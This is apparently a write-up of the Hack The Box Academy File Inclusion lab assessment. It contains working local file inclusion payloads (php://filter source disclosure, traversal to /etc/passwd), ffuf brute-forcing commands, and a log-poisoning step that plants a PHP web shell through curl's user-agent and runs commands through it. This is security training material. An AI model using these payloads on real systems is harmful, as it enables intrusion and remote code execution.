 ```yaml
---
slug: /write-up/htb-academy/file-inclusion
pagination_next: null
pagination_prev: null
---
```

This is the write-up for the assessment of HTB academy [File inclusion](https://academy.hackthebox.com/module/details/23) module.

This a little bit tricky because we know which vulnerability to exploit here: file inclusion.

```bash
whatweb 94.237.49.11:31840/index.php           
http://94.237.49.11:31840/index.php [200 OK] Bootstrap, Country[FINLAND][FI], HTML5, HTTPServer[nginx/1.18.0], IP[94.237.49.11], JQuery[3.3.1], PHP[7.3.22], Script, Title[InlaneFreight], X-Powered-By[PHP/7.3.22], nginx[1.18.0]
```

`whatweb` reveals we're dealing with a PHP/7.3.22 page served by an nginx/1.18.0.

While navigating as a regular user in the website, we can see the URL has a `page` parameter which looks promising for LFI vulnerability.

Visiting http://94.237.49.11:31840/index.php?page=industries../ shows `Invalid input detected!` which is the contents of `error.php` page.

Let's try the basic bypasses:

- Double the input: ./ become ..//. Nothing
- URL encode the symbols: nothing
- Try to escape the approve path: N/A because the pages are in root
- Path truncation: N/A PHP version is recent
- Null byte: N/A PHP version is recent

Let's try with more complex bypasses:

http://94.237.49.11:31840/index.php?page=php://filter/read=convert.base64-encode/resource=main

Worked and return the content of the main.php in base64

In index.php we discover a commented piece of code that makes reference to `ilf_admin/index.php`. If we try to access that page, we get something interesting showing some logs. Worth remembering: http://94.237.49.11:31840/ilf_admin/index.php?log=system.log

The filtering mechanism looks quite simple: 

```php
  $page = $_GET['page'];
  if (strpos($page, "..") !== false) {
    include "error.php";
  }
  else {
    include $page . ".php";
  }
```

http://94.237.49.11:31840/index.php?page=%252e%252e%252fetc%252fpasswd

Looks like might be vulnerable to double encoding, however we're only bypassing the first if and the include only let us include php files.

Let's get back to http://94.237.49.11:31840/ilf_admin/index.php

We can try to brute-force some directories:

```bash
ffuf -w /opt/github/SecLists/Discovery/Web-Content/combined_directories.txt:FUFF -u http://94.237.49.11:31840/ilf_admin/FUFF.php
ffuf -w /opt/github/SecLists/Discovery/Web-Content/burp-parameter-names.txt:FUZZ -u 'http://94.237.49.11:31840/ilf_admin/index.php?FUZZ=value' -fl 102
```

Nothing revealed.

However, we can try the LFI directly in the log paramter:

http://94.237.49.11:31840/ilf_admin/index.php?log=../../error.php and it worked!

http://94.237.49.11:31840/ilf_admin/index.php?log=../../../../../etc/passwd we have read the passwd file!

In order to have Remote Code Excecution, let's try to see if we can have Remote File Inclusion and add our shell.

We cannot include Remote files, checking the nginx error log, looks like they might be using `file_get_contents` or something like this.

Given we have access to logs, we can poison them and force `ilf_admin` to execute them by setting the user-agent of curl:

```bash
curl -s "http://94.237.59.185:42603/index.php" -A "<?php system($_GET['cmd']); ?>"
```

And now we have a web shell running in the logs page:

http://94.237.59.185:42603/ilf_admin/index.php?log=../../../../../var/log/nginx/access.log&cmd=id

From here we can move to a reverse shell